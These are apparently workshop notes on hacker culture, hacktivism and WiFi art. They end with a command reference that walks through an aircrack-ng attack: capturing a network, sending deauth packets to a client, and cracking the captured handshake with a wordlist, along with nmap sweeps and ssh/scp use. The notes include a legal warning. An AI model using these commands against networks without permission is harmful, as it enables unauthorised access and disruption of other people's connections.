

# WiFi H4X0Rz

Jennifer (played by Ally Sheedy) looking at computer terminal, in much the same way I do, in the 1983 film War Games: [movie trailer](https://netart.rocks/files/war-games-clip3.mp4) +++ [grades hacking clip](https://www.youtube.com/watch?v=hbqMuvnx5MU)

### early hacker culture

[Aunauthorized Access](https://archive.org/details/UnauthorizedAccess): "using new technologies in a way which is not intended." -- unnamed German hacker. this documentary is a gem! A doc made in 1994 by Annaliza Savage, she traveled to 15 cities in four countries to record the stories of notorious hackers and hacker culture) in that era. Not the DIY home-brew tinkier sort of hacker (like the kind you'd find at a Hack-a-thon or maker space) but the "black hoodie" breaking into systems sort of hacker. Though illegal, this was a time before the "[Cyberwar](https://www.viceland.com/en_us/show/cyberwar)" era we're in now, most of these hackers weren't paid, they weren't after money, they did what they did either for political/activist reasons, or for the challenge, or sometimes just for fun.

### Internet Art + Hacktivism

The image above links to a [clip of EDT](https://www.youtube.com/watch?v=aKH84gwNpzI) from the documentary [Hackers in Wonderland](https://www.youtube.com/watch?v=FDQ3bps42fI) (2000). EDT, [the Electronic Disturbance Theater](https://en.wikipedia.org/wiki/Electronic_Disturbance_Theater), was a "hacktivist" group from the early net.art movement best known for their project [FloodNet](https://anthology.rhizome.org/floodnet) which was a tool for conducting what they called "virtual sit-ins" a form of "online civil disobedience" (more on that in this video interview with [Carmin Karasic](https://vimeo.com/199039208)), essentially an early app for conducting what's now known as a [DDOS](https://en.wikipedia.org/wiki/Denial-of-service_attack) attack (still a popular form of digital protest used by contemporary hacktivist groups like Anonymous and others)

## Networking Demo

**1. Finding your Local IP Address**

After logging into the network, find the local IP address assigned do you by the router.

To find out your local IP address on Linux/Mac open a **Terminal** and run `ifconfig`, or search for: **System Preferences > Network > Wi-Fi**

To find out your local IP address on Windows open the **Command Prompt** and run `ipconfig/all` or serach for: **Control Panel > Netwwork and Internet > Network and Sharing Center > Change adapter settings > [Select Your Wireless Device] > Details**

**2. Running a Local Web Server**

Just like there are plenty of web clients (like web browsers) out there for you to choose from, there are also plenty of web servers you can use to run your own web server on your computer. Open up a **Terminal** and navigate into the directory you want to "serve" by using the "change directory" or `cd` command: `cd path/to/folder` (you can also type `cd` followed by a space and then simply drag+drop the folder into your terminal)

If you have python installed on your computer you can run either of the following commands to run a web server depending on your version of python (to check which version you have installed run `python --version`)

python version 2
`python -m SimpleHTTPServer 8000`

python version 3
`python -m http.server 8000`

if you have php installed you can run:
`php -S localhost:8000`

In these examples "8000" is the "port number" your server is listening for requests on. You can choose any port number you like (assuming it's not currently being used by another network connected application on your computer). By default http traffic usually uses port 80 (but to run on port 80 requres admin privleges so you'll need to prpend `sudo` to your command when you run your server which will prompt you for your password)

To check that your server is running open any web browser and visit **http://localhost:8000** (replacing "8000" with your port number, you can omit the port number when running on port 80 as that is the default for http). If that worked any other device on the same network (your phone for example or someone else's laptop) should be able to send your server requests by replacing "localhost" with your IP address, for example: **http://192.168.0.15:8000**

## the Electro Magnetic Spectrum

[NASA edu video](https://www.youtube.com/watch?v=lwfJPc-rSXw) on the Electro Magnetic Spectrum

[the Electromagnetic Spectrum](https://en.wikipedia.org/wiki/Electromagnetic_spectrum)

netnet [audio frequency](https://netnet.studio/?layout=dock-left#code/eJx9UsFu2zAMvecrBO/gGFhVF+gumW1gKIZdBuyw/oAiMQ5bmfIkOYkx9N9HWZ2XAUUvNkU+Pj49qglxttBthNg7M4vfHAgxKN8j7UT9eTkeAftj3Im7uj4dc8pgGK2ad+Jg4ZJTT1OIeJhvtKMIxHDNX/C5qCz2dIMRhnBdeNk0t68CNs1+itGRQNMWibvo0re5zelu0yCNUxRxHqEtvKIeCjEgtcUd/9WlLe7v60KclJ0gx9wSRkUdxzwlRTwkaI9jTPdlnSEKHS+iFQRncUYy7iy/TAbdQ7rDJW6rFeeCZhyjpfagIvwIGq1V0fkrUE//Yb4ppKXak+w5los4htTyU85yG4GO29RjgP0jFdFRteHyYSKdDiLZ8OgIttXreliLTDYwUxmQoFyzf/l6qtZciMrnCXrynq1/xAGqxfxV+D4m5cbpaWCA/DWBn3+CZSq+X/khKShTC+OkMubriVHfMfCegevaon4uP65CE3KlDhYN+HfYl7WW/0xMm3oHnsoLOhO/JeeYHgfr2UIl2u7KtIMHZiM9r5sAye70EHNiAaYBMm3/IT/kt1AvVXq4+Sn9AY6iDkw=) demo/sketch

# WiFi Art

[Pretty Fly for a WiFi](https://www.roelof.info/pretty-fly-for-a-wi-fi.html) by Roel Roscam Abbing

[WiFi Data Safari](http://nickbriz.work/?portfolio=WiFi-Data-Safari) by Branger_Briz (Nick Briz and Brannon Dorsey) -- [video](https://player.vimeo.com/video/269679739?color=ff0179&title=0&byline=0&portrait=0&autoplay=1&loop=1)

### Wireless Jammer Projects

TV-B-Gone by [Mitch Altman](https://en.wikipedia.org/wiki/Mitch_Altman)

Wave Bubble by [Limor Fried](https://en.wikipedia.org/wiki/Limor_Fried) (aka ladyada of [Adafruit](https://www.adafruit.com/)) (~2003)

No Network by [Julian Oliver](https://julianoliver.com/) (2014)

Log Jammer by [Allison Burtch](https://allisonburtch.github.io/) (2014)

### Workshop CLI Commands: Reference

**running local web server**

with python version 2
`python -m SimpleHTTPServer [PORT]`
ex: `python -m SimpleHTTPServer 8000`

with python version 3
`python -m http.server [PORT]`
ex: `python -m http.server 8000`

with php
`php -S localhost:[PORT]`
ex: `php -S localhost:8000`

use `sudo` to run on port 80 (default http port)

**finding local IP address**

check network devices
`iwconfig` && `ifconfig`

**Aircrack-ng commands**
**WARNING**: running many  of these commands on a network that you do not own yourself (or that you otherwise don't have permission to run them on) is illegal, a violation of the Computer Fraud and Abuse Act.

list devices
`airmon-ng`

switch device into monitor mode
`airmon-ng start [device]`
ex: `airmon-ng start wlan0`

start scanning w/that monitor mode device
`airodump-ng [device]`
ex: `airodump-ng wlan0mon`
(press `a` to switch between display modes)

start monitoring specific network
`airodump-ng [device] --bssid [router-MAC] -c [channel] -w [path/to/save/file]`
ex: `airodump-ng wlan0mon --bssid FF:FF:FF:00:00:00 -c 11 -w Documents/hax`

send deauth packets
`aireplay-ng [device] -0 [num] -a [router-MAC] -c [client-MAC]`
ex: `aireplay-ng wlan0mon -0 5 -a FF:FF:FF:00:00:00 -c AA:AA:AA:BB:BB:BB`

crack the password
`aircrack-ng -w [path/to/wordlist.txt] [path/to/file.cap]`
ex: `aircrack-ng -w Downloads/rockyou.txt Documents/hax-01.cap`

**multiple terminal "screens"**

first run `screen`, once it's running you can then run commands. All commands start with `ctrl a` followed by...

`c` create new terminal
`spacebar` switch to next terminal
`backspace` switch to previous terminal
`[num]` switch to specific number terminal
`l` split screen vertically
`S` (capital S) split screen horizontally
`tab` switch between screens
`Q` (capital Q) unsplit

**other workshop commands**

scanning devices on ur network (use sudo to get MAC addresses)
`nmap -sn [IP]/24` or `nmap -sn [IP]-[range]`
ex: `nmap -sn 192.168.0.0/24` ex: `nmap -sn 192.168.0.0-255`

logging into another computer on ur network
`ssh [username]@[IP-address]`
ex: `ssh root@192.168.0.15`

copying files to ur computer from anther computer on the network
`scp [username]@[IP-address]:[~/path/to/file] [path/on/ur/comptuer/to/file]`
ex: `ssh root@192.168.0.15`:~/Downloades/rockyou.txt ~/Desktop/rockyou.txt`

to edit your local DNS on Linux/Mac
`sudo nano /etc/hosts`

to edit your saved ssh connections on Linux/Mac
`sudo nano /Users/nick/.ssh/known_hosts`
